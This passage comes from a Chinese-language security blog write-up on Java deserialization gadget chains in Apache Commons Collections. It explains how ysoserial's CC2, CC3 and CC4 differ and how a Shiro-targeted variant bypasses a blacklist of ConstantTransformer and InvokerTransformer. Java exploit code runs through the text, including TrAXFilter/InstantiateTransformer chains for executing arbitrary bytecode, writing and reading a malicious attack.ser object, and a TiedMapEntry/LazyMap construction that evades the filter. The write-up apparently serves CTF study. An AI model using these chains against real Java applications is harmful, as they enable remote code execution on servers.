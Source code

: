 ```java
    f.set(transformerChain, transformers);

    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("attack.ser"));
    oos.writeObject(hashMap);
    oos.close();

    ObjectInputStream ois = new ObjectInputStream(new FileInputStream("attack.ser"));
    ois.readObject();
    ois.close();
}

public static void setFieldValue(Object obj, String name, Object value)throws Exception {
    Field f = obj.getClass().getDeclaredField(name);
    f.setAccessible(true);
    f.set(obj, value);
}
```

从而使之前写的两个CC链能够执行任意字节码文件。

在 ysoserial 的 CC3 中，实现了对于`InvokerTransformer`的绕过，发现能够利用`TrAXFilter`类的构造函数直接调用`newTransformer`方法：

![](https://image.silente.top/img/s204.png)

那么只需要用`InstantiateTransformer`调用`TrAXFilter`的构造函数生成新实例就能达成利用目的；对于修改仅需替换构造链：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer (
                new Class[] {Templates.class},
                new Object[] {obj}
        )
};
```

![](https://image.silente.top/img/s205.png)

在ysoserial 中，它的 CC3 后面部分是用的 CC1 中的代理注入，一样的实现效果，因此不能用来打高版本；CC2 则利用了 `cc4.0`包中将`TransformingComparator`这一个类实现了`Serializable`，在其`compare`中触发了`transform`方法，所以可以利用优先队列`PriorityQueue`来进行构造从而绕过使用 CC1 的代理类，使 POC 能在高版本触发；CC4 对于 CC2 不同的地方在于 CC2 是利用 `InvokerTransformer`调用了`newTransformer`方法，而 CC4 则是利用前面的`TrAXFilter.class`的形式对`InvokerTransformer`进行了绕过。

#### Shiro变种

有次学长出了一个题是`shiro`链并且把`ConstantTransformer`和`InvokerTransformer`加入了黑名单。

可以用前面的链子做点改动就能实现，因为`shiro`链不支持加载数组，所以得让`Transformer`数组消失；这里可以考虑把`TrAXFilter.class`放在`TiedMapEntry`的`key`位置，使在`LazyMap#get`方法下直接传入进`TrAXFilter.class`，扮演了`ConstantTransformer`的角色，从而避免了对它的直接使用。

```java
Transformer fakeTransformer = new ConstantTransformer(1);
Transformer transformer = new InstantiateTransformer(
        new Class[]{Templates.class},
        new Object[]{obj}
);

Map<Object, Object> innerMap = new HashMap<>();
Map outerMap = LazyMap.decorate(innerMap, fakeTransformer);

TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, TrAXFilter.class);
HashMap hashMap = new HashMap();
hashMap.put(tiedMapEntry, "foo");
outerMap.remove(TrAXFilter.class);

setFieldValue(outerMap, "factory", transformer);
```
